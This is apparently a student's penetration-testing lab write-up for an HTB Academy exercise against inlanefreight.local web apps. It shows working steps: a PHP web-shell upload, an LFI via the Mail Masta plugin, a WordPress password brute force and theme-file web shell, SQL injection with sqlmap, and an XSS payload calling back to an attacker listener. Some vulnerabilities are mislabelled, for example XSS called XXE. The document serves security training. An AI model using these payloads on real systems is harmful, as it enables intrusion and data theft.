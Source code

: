 # careers.inlanefreight.local
I entered that web application, enumerate. I registered and after registration i noticed url like: http://careers.inlanefreight.local/profile?id=9

I tried to brute force and found IDOR vulnerability.

# dev.inlanefreight.local
I tried to gobuster for enumerate .php files:
```bash
gobuster dir -u http://dev.inlanefreight.local -w /usr/share/wordlists/dirb/common.txt -x .php -t 300
```

## output:
```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dev.inlanefreight.local
[+] Method:                  GET
[+] Threads:                 300
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/06/20 22:04:48 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 288]
/.htpasswd            (Status: 403) [Size: 288]
/.hta                 (Status: 403) [Size: 288]
/.htpasswd.php        (Status: 403) [Size: 288]
/.hta.php             (Status: 403) [Size: 288]
/css                  (Status: 301) [Size: 332] [--> http://dev.inlanefreight.local/css/]
/images               (Status: 301) [Size: 335] [--> http://dev.inlanefreight.local/images/]
/index.php            (Status: 200) [Size: 2048]                                            
/index.php            (Status: 200) [Size: 2048]                                            
/js                   (Status: 301) [Size: 331] [--> http://dev.inlanefreight.local/js/]    
/server-status        (Status: 403) [Size: 288]                                             
/uploads              (Status: 301) [Size: 336] [--> http://dev.inlanefreight.local/uploads/]
/upload.php           (Status: 200) [Size: 14]                                               
/.htaccess.php        (Status: 403) [Size: 288]                                              
                                                                                             
===============================================================
2022/06/20 22:05:02 Finished
===============================================================
```

When I tried to enter **/upload.php** directory it said **403 forbidden** which is very suspicious because output of gobuster is **Status 200** 
I tried to use **Brute Force** to change request method every method gave me error except **TRACKING**

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/3d64cb64-0bf8-44cf-bf3b-76e1efaa15f8)

Next time I tried to enter `X-Custom-IP-Authorization: 127.0.0.1` to request and this happened:

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/ebd06bcd-88b3-4ffa-98a4-addadf47f481)

If we right-click anywhere in the Response window in Repeater we can select show response in browser, copy the resultant URL and request it in the browser we are using with the Burp proxy. A photo editing platform loads for us.

Then I tried to use shell .php file with following content: `<?php system($_GET['cmd']); ?>`  I changed Content type to `Content-Type: image/png` then I can use curl to shell.

# ir.inlanefreight.local

This web application seems like wordpress.
Let's fire up WPScan and see what we can enumerate using the -ap flag to enumerate all plugins.

```bash
sudo wpscan -e ap -t 500 --url http://ir.inlanefreight.local
```
## Output:
```bash
[+] WordPress version 6.0 identified (Latest, released on 2022-05-24).
 | Found By: Rss Generator (Passive Detection)
 |  - http://ir.inlanefreight.local/feed/, <generator>https://wordpress.org/?v=6.0</generator>
 |  - http://ir.inlanefreight.local/comments/feed/, <generator>https://wordpress.org/?v=6.0</generator>

[+] WordPress theme in use: cbusiness-investment
 | Location: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/
 | Latest Version: 0.7 (up to date)
 | Last Updated: 2022-04-25T00:00:00.000Z
 | Readme: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/readme.txt
 | Style URL: http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css?ver=6.0
 | Style Name: CBusiness Investment
 | Style URI: https://www.themescave.com/themes/wordpress-theme-finance-free-cbusiness-investment/
 | Description: CBusiness Investment WordPress theme is used for all type of corporate business. That Multipurpose T...
 | Author: Themescave
 | Author URI: http://www.themescave.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 0.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://ir.inlanefreight.local/wp-content/themes/cbusiness-investment/style.css?ver=6.0, Match: 'Version: 0.7'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] b2i-investor-tools
 | Location: http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/
 | Latest Version: 1.0.5 (up to date)
 | Last Updated: 2022-06-17T15:21:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.0.5 (100% confidence)
 | Found By: Query Parameter (Passive Detection)
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/css/style.css?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/css/export.css?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/wb_script.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/amcharts.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/serial.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/amstock.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/export.js?ver=1.0.5
 | Confirmed By: Readme - Stable Tag (Aggressive Detection)
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/readme.txt

[+] mail-masta
 | Location: http://ir.inlanefreight.local/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://ir.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jun 20 23:07:09 2022
[+] Requests Done: 35
[+] Cached Requests: 7
[+] Data Sent: 9.187 KB
[+] Data Received: 164.854 KB
[+] Memory used: 224.816 M
```
I can see old Mail Masta plugin installed we can use LFI vulnerability like this:
```bash
curl http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/1aa89154-d189-4562-a351-6b0ef8b5717e)

## Next enumerating users:
```bash
wpscan -e u -t 500 --url http://ir.inlanefreight.local
```
Valid users: ilfreightwp, tom, james, jhon
## Brute force password:
```bash
wpscan --url http://ir.inlanefreight.local -P passwords.txt -U ilfreightwp
```
Password: password1
Very weak password next job is obivious login, editing 404.php from twenty twenty `<?php system($_GET['cmd']); ?>`
Then web shell:
`curl http://ir.inlanefreight.local/themes/twentytwenty/404.php?cmd=id` or direct link

# status.inlanefreight.local

Next web application has sql injection vulnerabilitiy in it's search box
`' union select null, database(), user(), @@version -- //`

I took this burp suite request and save slqi.txt file:
```bash
POST / HTTP/1.1
Host: status.inlanefreight.local
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://status.inlanefreight.local
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://status.inlanefreight.local/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=s4nm572fgeaheb3lj86ha43c3p
Connection: close

searchitem=*
```
Then I used this command using sqlmap:
```bash
 sqlmap -r sqli.txt --dbms=mysql
```
After finding database and table:
```bash
sqlmap -r sqli.txt --dbms=mysql -D status --tables --dump
```
# support.inlanefreight.local

It has **XXE** vulnerability of message filed from **/ticket.php** page
```bash
 "><script src=http://10.10.14.15:9000/TESTING_THIS</script>
```
we will wait nc listener:
`nc -lvnp 9000`

After executing above payload we have:
```bash
listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.101] 56202
GET /TESTING_THIS%3C/script HTTP/1.1
Host: 10.10.14.15:9000
Connection: keep-alive
User-Agent: HTBXSS/1.0
Accept: */*
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```
Confirm it has vulnerability.


